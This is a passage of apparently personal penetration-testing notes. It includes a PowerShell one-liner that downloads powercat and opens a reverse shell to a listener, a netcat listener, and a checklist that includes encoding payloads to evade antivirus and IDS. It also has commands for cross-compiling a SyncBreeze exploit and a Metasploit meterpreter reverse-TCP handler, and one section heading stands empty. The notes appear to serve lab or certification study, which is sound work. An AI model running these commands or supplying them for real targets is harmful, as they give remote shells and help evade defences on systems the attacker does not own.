     - Replace `ATTACKER_IP` and `ATTACKER_PORT` with your listener's IP and port.

    - Setup python simple HTTP server to host the document:
    
        ```bash
        python3 -m http.server 80
        ```

        ```bash
        IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
        ```

    - Set up a listener on your machine:
        
        ```bash
        nc -lvnp 4444
        ```

## Fix exploitation

[ ] Change port number if default port is blocked by firewall.
[ ] Change the shellcode architecture (x86, x64) to match target system.
[ ] Fix payload.
[ ] Encode the payload to bypass antivirus or IDS/IPS systems.
[ ] Use different payload types (reverse shell, bind shell, meterpreter) based on the situation.
[ ] Use different target upload location.


### Install MinGW on Kali Linux
`sudo apt install mingw-w64` – Install MinGW for cross-compiling Windows binaries on Linux.

### Cross-Compile Exploit Code
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe` – Compile exploit code to Windows executable.
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32` – Compile with Winsock library if needed.

### C for Windows Exploit Example ( make user)

### AV Bypass with Shellcode Encoding

```bash
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
sudo apt install wine

sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```
